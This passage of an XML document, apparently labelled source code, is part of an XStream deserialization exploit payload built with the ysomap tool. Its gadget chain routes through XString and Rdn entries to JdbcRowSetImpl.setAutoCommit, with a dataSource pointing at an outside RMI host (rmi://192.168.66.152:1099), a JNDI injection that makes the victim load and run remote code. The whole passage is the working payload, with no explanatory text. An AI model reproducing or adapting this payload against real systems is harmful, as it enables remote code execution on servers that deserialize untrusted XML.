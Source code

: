 ```
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://192.168.66.152:1099/ri9wnz</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```
